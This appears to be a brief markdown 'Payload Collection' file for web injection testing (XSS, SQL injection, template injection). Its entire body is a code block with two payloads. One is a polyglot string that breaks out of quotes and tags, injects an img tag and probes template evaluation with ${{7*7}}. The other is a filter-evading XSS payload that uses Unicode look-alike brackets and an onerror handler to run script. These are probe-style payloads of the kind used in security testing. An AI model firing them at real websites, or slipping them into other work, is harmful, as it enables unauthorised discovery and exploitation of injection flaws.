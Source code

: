 # Payload Collection

# XSS, SQLi, SSTI, etc.

``` 
'"`><img src=x>${{7*7}}
💋img src=x onerror=alert(document.domain)//💛
```
